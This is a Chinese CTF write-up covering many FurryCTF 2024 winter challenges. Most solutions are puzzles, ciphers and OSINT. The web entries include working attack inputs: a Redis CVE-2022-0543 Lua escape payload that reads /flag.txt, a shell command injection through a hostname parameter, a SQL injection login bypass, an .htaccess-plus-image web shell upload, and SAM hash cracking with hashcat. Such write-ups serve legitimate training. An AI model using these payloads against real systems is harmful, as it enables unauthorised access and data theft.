










# FurryCTF 2024 寒假赛 WriteUp

出的题简直不是给人做的。出题人疑似是狗。

## [beginner]签到题

网易云听歌识曲，即得答案造梦西游3。

## [misc]猫猫的故事

零宽字符隐写，全文复制丢[进来](https://330k.github.io/misc_tools/unicode_steganography.html)解码即得 flag。

## [misc]安装包

右键解压，有一个 f12g.txt 的文件：

```
koiiwEMK{M0q_Kf_Fkwj_K12a_Ze_Gp5mfqfvi?}
```

显然是什么古典密码，而且显然前面开头是furryCTF。那么丢进 CyberChef 随便[解](https://gchq.github.io/CyberChef/#recipe=Vigen%C3%A8re_Decode('furryCTF')&input=a29paXdFTUt7TTBxX0tmX0Zrd2pfSzEyYV9aZV9HcDVtZnFmdmk/fQ)一下：

```
furryCTF{H0w_To_Hide_F12g_In_In5taller?}
```

## [misc]丢失的文档

Binwalk 提示是 ZIP 文件，zipinfo 之：

```
Archive:  flag.asd
Zip file size: 27648 bytes, number of entries: 1
warning [flag.doc]:  13955 extra bytes at beginning or within zipfile
  (attempting to process anyway)
-rw----     4.5 fat      197 b- defS 80-Jan-01 00:00 [Content_Types].xml
1 file, 197 bytes uncompressed, 165 bytes compressed:  16.2%
```

看到 `[Content_Types].xml` 立刻认为这应该是一个 Word 文件，改个 .doc 用 WPS 打开即可（Office 应该也可以，我没试）。

## [misc]黑暗

pngcheck 可注意到：

```
chunk IEND at offset 0x00db3, length 1668181060:  EOF while reading data
```

显然就是藏东西了，演都不带演的。手动挨个 strings 之后提取出 IEND 前面的神秘字符拼在一起 base64 解码可得flag。

## [misc]校园浏览器

点击作者名字右边的版本号就送 Flag。

## [misc]震耳欲聋

[Lissajous 图形](https://en.wikipedia.org/wiki/Lissajous_curve)。写个脚本模拟一下，显然是 BadApple。

``` python
import numpy as np
from scipy.io import wavfile
import matplotlib.pyplot as plt

sample_rate, data = wavfile.read('bomb.wav')

left_channel = data[:, 0]
right_channel = data[:, 1]

window_length = 0.1

window_samples = int(sample_rate * window_length)

total_frames = len(left_channel) // window_samples

fig, ax = plt.subplots()

for frame in range(total_frames):
    start = frame * window_samples
    end = start + window_samples
    x = left_channel[start:end]
    y = right_channel[start:end]

    ax.clear()
    ax.plot(x, y)
    ax.set_xlim(np.min(left_channel), np.max(left_channel))
    ax.set_ylim(np.min(right_channel), np.max(right_channel))
    ax.set_title(f'Frame {frame}')

    filename = f'frame_{frame:04d}.png'
    plt.savefig(filename)
    print(f'Saved {filename}')
```

)

## [misc]乱码

词频统计秒了。也不知道到底是谁在 misc 里面出这种题。

## [misc]ITF-72

)

谢邀，真的做不出来。

## [misc]过去的记忆

```
flag.dsk: Apple DOS 3.3 Image, Volume #001, 35 Tracks, 16 Sectors, 256 bytes per sector
```

使用 `applecommander` 提取 Logo 脚本，然后运行一下得 Flag。

```
applecommander-ac -g flag.dsk FLAG.LOGO flag.logo
```

由于懒得找 Logo 解释器，随便扔给 AI 转成 Python 的：

``` python
import turtle

data=[...]
def nextline(b):
    if b > 0:
        turtle.penup()
        turtle.backward(b)
        turtle.right(90)
        turtle.forward(1)
        turtle.left(90)
    if b < 0:
        turtle.penup()
        turtle.backward(0 - b)
        turtle.right(90)
        turtle.forward(2)
        turtle.left(90)

def scanline(pdata):
    if not pdata:
        return
    d = pdata[0]
    follow = pdata[1:]
    if d == 0:
        nextline(follow[0])
        follow = follow[1:]
    if d > 0:
        turtle.pendown()
        turtle.forward(d)
    if d < 0:
        turtle.penup()
        turtle.forward(0 - d)
    scanline(follow)

def showflag():
    turtle.home()
    turtle.penup()
    turtle.setpos(-75, 30)
    turtle.right(90)
    scanline(data)
    turtle.hideturtle()

# 初始化 Turtle
turtle.speed(0)  # 最快速度
turtle.delay(0)  # 无延迟
showflag()
turtle.done()
```

## [misc]Windows 1.0

非预期解：

```
> strings win1.0.img | grep furry
CTFFLAG  furryCTF{Ca1l_Help_When_Y0ur_Comput9r_Is_D0ne}
```

预期解

``` bash
qemu-system-x86_64 -hda win1.0.img
```

```
FASTHELP
```

)

## [misc]春风得意

)

每八个字符为一组，每组首尾两个字符一致，中间四个对应到键盘位置形成的框中的字母为实际对应的字母。

> 这框真帅吧

## [misc]此时无声胜有声

Google 找个 midi 编辑器，导入之后就能看到画的 flag。

)

## [misc]局域网联机

流量包显然有一个 JSON 传递了前三问的信息。

看到网卡名字是 vnt-dev，搜索 [vnt 内网穿透](https://www.google.com/search?q=vnt+%E5%86%85%E7%BD%91%E7%A9%BF%E9%80%8F) 得到该项目的 GitHub 主页，在 README 里就可以[看到](https://github.com/vnt-dev/vnt#%E6%94%AF%E6%8C%81%E5%B9%B3%E5%8F%B0) 默认依赖了 wintun.dll。

## [misc]湍流细木

Wireshark打开，统计->HTTP->请求，看到有一个 furlary.com/newflag.jpg 十分的可疑，访问一下下载到一张图片。

乍一看是个图片马，我还在想怎么让这玩意能解析。仔细一看不对啊，似乎藏了什么东西。于是发现了 flag。

[解题脚本](https://gchq.github.io/CyberChef/#recipe=From_Hex('Space')From_Braille()&input=RTIgQTAgOEIgRTIgQTAgQTUgRTIgQTAgOTcgRTIgQTAgOTcgRTIgQTAgQkQgRTIgQTAgODkgRTIgQTAgOUUgRTIgQTAgOEIgN0IgRTIgQTAgOEUgRTIgQTAgOTEgRTIgQTAgOTEgRTIgQTAgQjggRTIgQTAgQkQgRTIgQTAgOTUgRTIgQTAgQTUgRTIgQTAgQjggRTIgQTAgODEgRTIgQTAgOUIgRTIgQTAgODEgRTIgQTAgODIgRTIgQTAgOUQgN0Q&oenc=65001)（？）

## [misc]求而不得

爆破 CRC，在这玩 HPC 呢是吧。

``` cpp
#include <iostream>
#include <string>
#include <map>
#include <thread>
#include <zlib.h>
#include <cmath>
#include <mutex>
#include <vector>
#include <iomanip>

const std::string visible_chars =
"0123456789"
"abcdefghijklmnopqrstuvwxyz"
"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
"!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~ "
;

std::map<std::string, uint32_t> target_crc32 = {
    {"a1", 0xd6794fcc},
    {"a2", 0xa4923bd1},
    {"a3", 0x5150ce86},
    {"a4", 0x269fce5d},
    {"a5", 0x0327e383},
};

std::map<std::string, size_t> lengths = {
    {"a1", 3},
    {"a2", 3},
    {"a3", 6},
    {"a4", 5},
    {"a5", 2},
};

std::mutex cout_mutex;

uint32_t compute_crc32(const std::string& s) {
    uint32_t crc = crc32(0, NULL, 0);
    crc = crc32(crc, (const Bytef*)s.c_str(), s.size());
    return crc;
}

size_t power(size_t base, size_t exponent) {
    return static_cast<size_t>(std::pow(base, exponent));
}

std::string generate_combination(const std::string& chars, size_t length, size_t index) {
    std::string s;
    size_t n = chars.size();
    for (size_t pos = 0; pos < length; ++pos) {
        size_t divisor = power(n, length - pos - 1);
        size_t char_index = (index / divisor) % n;
        s += chars[char_index];
    }
    return s;
}

void find_string_for_label(const std::string& label, uint32_t target_crc, size_t length) {
    const std::string chars = visible_chars;
    size_t n = chars.size();
    size_t num_combinations = power(n, length);
    for (size_t i = 0; i < num_combinations; ++i) {
        std::string candidate = generate_combination(chars, length, i);
        uint32_t crc = compute_crc32(candidate);
        if ((crc & 0xffffffff) == target_crc) {
            std::lock_guard<std::mutex> lock(cout_mutex);
            std::cout << label << ": " << candidate << "  CRC32: 0x" << std::setfill('0') << std::setw(8) << std::hex << crc << std::endl;
            return;
        }
    }
}

int main() {
    std::ios_base::sync_with_stdio(false);
    std::vector<std::thread> threads;
    for (const auto& pair : target_crc32) {
        const std::string& label = pair.first;
        uint32_t target_crc = pair.second;
        size_t length = lengths[label];
        threads.emplace_back(find_string_for_label, label, target_crc, length);
    }
    for (auto& th : threads) {
        th.join();
    }
    return 0;
}
```

为什么没用 hashcat 呢？因为到现在我还没意识到这个比赛需要用 hashcat 这种暴力工具，**后面就老实了**。

## [misc]图片的秘密

SSTV 收到一个什么 `pebbiMDP` 然后发现这个序列在后面又出现了一次。

很显然就是个位移，继续搬出 CyberChef 随便搞一下就出来了。

## [misc]卜卦

脑子犯抽了 Day 3 才做出来这道题真不应该。

音频频谱打开之后发现高频有神秘东西，怀疑是 SilentEye 或者什么其他频域隐写放进去的。过了一边无果。后来才发现最后面藏了 AES256 的密码，丢进 SilentEye 出了一个歌词文件。

一看前面是当铺密码，解完之后就是十进制转 ASCII 了。

## [misc]网盘

出题人把题出烂了，疑似是 MD5 碰撞，上传附件到百度网盘再打开有一张 flag 图片。

)

## [web]flag下载

没什么好说的。先喷一下这个题的出题人。

> 哪有好人出比赛要选手对着比赛平台攻击的，你们这个害人不浅啊你们这个题，将来选手做题方向上出了偏差你们可是要负责任的！

那么怎么做呢，直接去看[源码](https://github.com/hydro-dev/Hydro/blob/master/packages/hydrooj/src/handler/problem.ts#L1030)。

> 题外话：看到好多选手在群里说这个题的问题，那就不是我特立独行要对出题人批判一番。就相当于这个事，出题人也有责任的对吧。

## [web]列表 & [web]彩蛋

两个 Scratch 放在一起写吧，下面是纯魔法教学，请勿模仿。

这个界面一看就是 Scratch 过了一边 Web 打包器出来的产物。Scratch 是 GUI + VM 的架构，所以 VM 里面储存了整个作品信息。

可以使用 React DevTools 直接拿到 vm 实例，然后调用 `vm.saveProjectToSb3()` 甚至是 `vm.toJSON()` 就能拿到整个项目的工程文件。

)

文件都拿到了，那么接下来只要随便找个编辑器打开就会有这样的一段注释

```
📝👸💤📜💍💓📛💴💗📜💆💈📞💅💧📛💱👽📙👷💔📜👼💪📠💎💤📝💱💇📞💗👸📙👷💔📞💑👻📟💭💁📝💔👺📝💳💆📝💫💕👘👮👘🐁📟💶💐📝💏💦📜💨💕📛💱💅📛💴💗📞💑👻📜💜💍📜💁💨📦💳💑🐁👝👬👩👩👰🐺👋🐽👲🐽🐨👥👛👖👋👟👜👖👋👩👜🐷👪👬👩👜👖👀👥👖👆👩👛🐨👥👘👩👰👖👎🐧👩👣👛👴🐁🐁📟💶💐📠👾💃📟💶💏📝💓💀📛💯👷📛💯💡📜💧💆📜💴💠📟💒💂📦💳💃📝💏💦📟💶💐📛💯👷📝💳💆📝💫💕📞💑👻📜💆💈📞💅💧📟👷👼📞💌💐📛💯💂📞💑👻📦💳💑🐁👟👫👫👧👪🐱🐦🐦👮👮👮🐥👙👠👣👠👙👠👣👠🐥👚👦👤🐦👭👠👛👜👦🐦🐹👍🐨👅👫🐫👰🐨👊🐮👋🐻🐦

F$_<i}Zp:&yd&AXeCQ'#]Zap5Gf&ojDyCN&KN$*N$4j>*DdpE^jc/=2h5IgRY8\
```

上面用 Emoji 解码，下面用 Base92 解码。即得**两个** flag。

两个！

两个啊！这 600 分的题就这么就。。就结束了？

其实列表那题我到现在也不知道预期解是什么，下载下来的文件里也没有列表。

## [web]雪花飘飘

在 [unpkg](https://unpkg.com/browse/magic-snowflakes@4.0.0/dist/) 找一个 2018 年的 snowflakes 版本，然后和题目的 min.js 进行一个 diff，注意到有一串神秘注释。

十进制转 ASCII 即得 flag。

## [web]史莱姆的世界

Scratch 代码逆向。

所有角色点一遍可以发现高玩榜似乎有奇怪的东西

)

查看对应造型，然后手动翻转即为 flag。

## [web]豆蔻年华

下载图片，然后：

)

尝试丢进浏览器访问一下，是个 Redis。

试了一圈，没找到 flag 的 key，也不能写文件。然后看到 CVE-2022-0543。

Payload:
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /flag.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```

## [web]剑走偏锋

那确实挺偏的。注意到 $CTF 的校验里面不包括 `?`。

那么众所又周知呢，`?` 在 bash 里面可以匹配一个字符。

题目又给了 flag 长得像 xxxx.xxx。

直接构建一个 `$furry=""; $CTF="????.???"` 的 payload 就可以了。

> 这答案明显的都快写我脸上了也没看见，惭愧。

## [web&pwn]调试窗口

全场为数不多让我感到有点小惊喜的题目。

Flag 1 改 is_admin=1 即可绕过。

Flag 2 声称是修改主机名，真的吗我不信。附件逆向之后发现直接把用户输入的 `hostname` 拼到了 `/tools/sethostname` 的后面，显然可以构造一些神必输入来执行一些其他的东西。

就比如 `sethostname.cgi?is_admin=1&hostname=1;cat /flag/flag2.txt`。

> 题外话，`-rwxr-xr-x    1 root     root            34 Oct  5 09:56 flag2.txt` 居然还没被搅屎简直是奇迹，你们福瑞控还是太文明了。

## [mobile&web&pwn]furry天堂

### Q1

直接将 apk 中的网页拉到本地运行。随便交点东西上去拿到后端地址和 Header 中的 Flag * 1。

### Q3

扫目录，robots.txt里面有个长得像 flag 但是不知道是不是的东西，交上去试试发现居然真的是。

### Q2

扫描目录发现后台地址 `https://10000.ctf.hydro.ac/admin`

然后根据提示用户名是 `username`，密码试过跑字典没跑出来，SQL 注入 `1' or 1=1 #` 这个 payload 就莫名其妙的登陆进去了。一次不行就多点几次，后端直接丢了一个 302 没有返回数据，真是奇奇怪怪。

进到后台转一圈，发现系统菜单里面有个 Flag：

)

### Q4

然后就是找上传点了。显然可以传文件上去：

)

发现校验挺严格的，要后缀名和文件指纹都校验通过才能传。

那直接去网站设置里面加个 `.php` 的上传类型也不行，但是加 `htaccess` 文件可以，那就可以造一个将当前目录下所有文件喂给 php 解析器的 htaccess，然后正常上传图片马。

)

### Q5

后台里面还有个短信查看，有一个显得格格不入的邮箱。

那么发个邮件过去试试？

)

彳亍。


## [mobile]登录 & [mobile]认证系统

这两题实在太水而且做法高度一致故合并。

丢进 jadx 随便翻两下就能看到 flag。

)

另一个也是，实在搞不懂套这层加密有什么意义（

)

第二个甚至 150 分。

## [mobile]初见端倪

咱也不知道 Chatme 是个什么东西。

MainActivity 里面有几句怪话：

```
  const-string v0, "ah4icgsj8uye56a"
  const-string v1, "Add l to the end of string k, and replace first a of string k with s."
  const-string v2, "The string q is question, you need decrypt it."
```

好好 那么就[解](https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'UTF8','string':'sh4icgsj8uye56al'%7D,%7B'option':'Hex','string':''%7D,'ECB','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=cEt5a0M5d2ROTDdUV0xQbVdTQjMlMkZiZmtRRWhPejM1OHc5SXRHSVBURW9FaFBlVDA1SkliUkh4ZjhlV2lhYVlnZTdnYzZKWmZaYUdCMkY0NEtTN29uY2VGVG1TeU5scG42SXRLcE0lMkJnanVTdjBsQjg2a0dMT3YybDJtTUlHOUNr)。

```
flag密钥请见res文件内字符串k0，密文请见res文件内字符串e0-e10
```

好好好，喜欢套娃是吧。全局搜索然后如法炮制。

## [rev]Login

开字符串模式一看，显然里面放了一个巨长无比的字符串。

```
50955130862247346033129849911215869256974228669048534734398765262912025541901441526490493
```

转 ASCII 之后看到 flag 才知道原来是想让我玩指针越界啊。

## [rev]MEMZ

> 严禁任何破坏CTFer本机的恶意行为，包括但不限于删除文件、恶意填塞/格式化硬盘、蠕虫病毒等行为。
> Bugku 题目投稿规范及奖励标准 v1.1

这题用有实际危害的病毒出题就不说什么了，放到哪个正经比赛里面都会被喷成筛子的。rev 题还套了一层压缩包密码那我实在是有点迷惑了。

和上一题解法完全一致，十进制转 ASCII，单独开一段来说只是为了喷两句。

## [rev]烦人的黑框框

Pyinstaller 逆向，随便找个[在线工具](https://pyinstxtractor-web.netlify.app/)就能拆出来。然后再随便找个[pyc转py](https://rivers.chaitin.cn/tools/pyc2py)。

赛博厨师告诉我们那一串长得像 BaseXX 的东西是 Base32。

## [crypto]亡羊补牢

这题需要极强的注意力。

已知，flag 的格式为 `^furryCTF\{.*\}$`，

注意到 flag 应该由 `furry` 开头，然后又可以注意到第一个 `r` 和 `f`，以及 `f` 和第二个 `r` 之间均隔了 8 个字符。

于是把密文按 9 字符一组分组，

```
rFettRF_e
fC_Ieglcp
r{we1aeCr
uTNns__eh
yA_rnin1}
```

竖着读可以得到一个长得很像 flag 的东西，

**注意到** `furry` 已经全部出现在第一列，进行重排序，

```
fC_Ieglcp
uTNns__eh
rFettRF_e
r{we1aeCr
yA_rnin1}
```

再次竖着读可以得到 flag。

```
furryCTF{A_New_Interest1ng_Rail_Rence_C1pher}
```

## [crypto]Scratch

下载的是一个 `project.json`。打成压缩包改后缀 .sb3 就能打开。把音符的频率抄下来转 ASCII 得 Flag。

~~出题人为了防止直接 grep 真是煞费苦心啊.sb3~~

## [crypto]MD5

丢去 cmd5 直接秒了，甚至不需要充钱。

## [crypto]SAM

```
chntpw -l SAM
```

然后就出了一个 hash 来给我爆。

```
hashcat -m 1000 861bd8bac91cac40013172f47ab784a4 -a 3 -O "?l?l?l?l?l?s?a?a?a"
```

A100 上跑十多分钟出了结果。其实这题如果用字典更快，但是想了一下那我还要去找字典，还不如直接跑。

## [crypto]粗心的猫猫

两则密文用了相同的 $p$，且已知 $n_1$ 和 $n_2$，求该两者的最大公约数即为 $p$.

然后分别用 $n_1$ 和 $n_2$ 除以 $p$，即可得到 $q$.

现在，又已知 $e$，则可以直接求解密文对应的明文。具体实现：

``` python
p = gmpy2.gcd(n1, n2)

print('p=',p)

q1 = n1 // p
q2 = n2 // p

print('q1=', q1)
print('q2=', q2)

phi_n1 = (p - 1) * (q1 - 1)

d = gmpy2.invert(e, phi_n1)

flag = pow(enc1, d, n1)

print("flag:", int(flag))
```

## [hardware]Charge

> hardware? osint!

我们仍无法知道这款充电宝的重量是多少。

淘宝搜图可得一、三问结果，第二问不想算直接从40开始爆破。

但其实第二问依然很有问题。不同的线材、协议、转换效率、充电进度甚至环境温度都会影响充电速度。

所以我还是不知道出题人的 50% 是怎么算出来的。

## [hardware]尘埃中的电路板

把印象中的友商都试了一遍，出了。

## [hardware]显示屏

型号很显而易见，然后就能搜索到这个设备对应的[维修手册](https://www.synfo.nl/servicemanuals/Roland/ROLAND_SC-8850_SERVICE_NOTES.pdf)

PDF 里有一个屏幕型号：

)

以及一个驱动型号：

)

排列组合没排列好，很可惜最后才做出来。

## [osint]人文风景

区号锁定市级区域，再通过对面招牌推断具体位置，结合百度实景进一步确认。然后答案就出现了，地图上就那么一家餐厅。

## [osint]循迹

搜图，图1左边的牛是即墨古城的文创 IP。两张图拍摄时间相差比较短，可以推测火锅店也在该区域内。地图搜索只有唯一一家火锅店。

## [osint]神秘影片

网易云听歌识曲第二次出现在了这场比赛中。

这里一个大坑是搜到歌就找视频，然后大概率找到一个搬运来的音乐区视频。但很可惜并不是。

打开评论区，有 ky 小鬼直接把答案送上了门，是 火柴人HyunsDojo 的 齐天大圣联合。

## [osint]出勤！

根据图片EXIF定位确定到商场，全国音游地图一看这个地方居然有三家机厅。

再通过机台上的贴纸确定到其中的一个，但是为什么还是不对呢，一看这个机厅在近一个月调了两个机台的价格。

但是为什么还不对呢？为什么呢？哦。

)

## [osint]旅行照片

识图，然后就出来了。

)

## [osint]时光机

[五人组](https://www.bilibili.com/video/BV1EP4y1n7Ei/)

用namesmc找一遍就出答案。

## [osint]归去

打开路路通时刻表，搜索图里没有打码的车次，然后再根据行车时间找到拍照的车站，即可比对出正在检票的车次。

## [osint]旅程

根据EXIF时间和机翼上的注册号可以锁定到具体的航班。在 Flightradar24 下载了该次航班的飞行轨迹，找到与拍摄时间最接近的记录。在地图上对应到了一大片公司，但很幸运的是他们都是合肥XXXX有限公司。于是就这么出了。

这个题做的一点也不 OpenSource。为此专门注册了一个 fr24 的新账号白嫖会员（

## Summary

不止一次的想打爆出题人的狗头。

)

然后，这次题出锅的还挺多的，怒了。
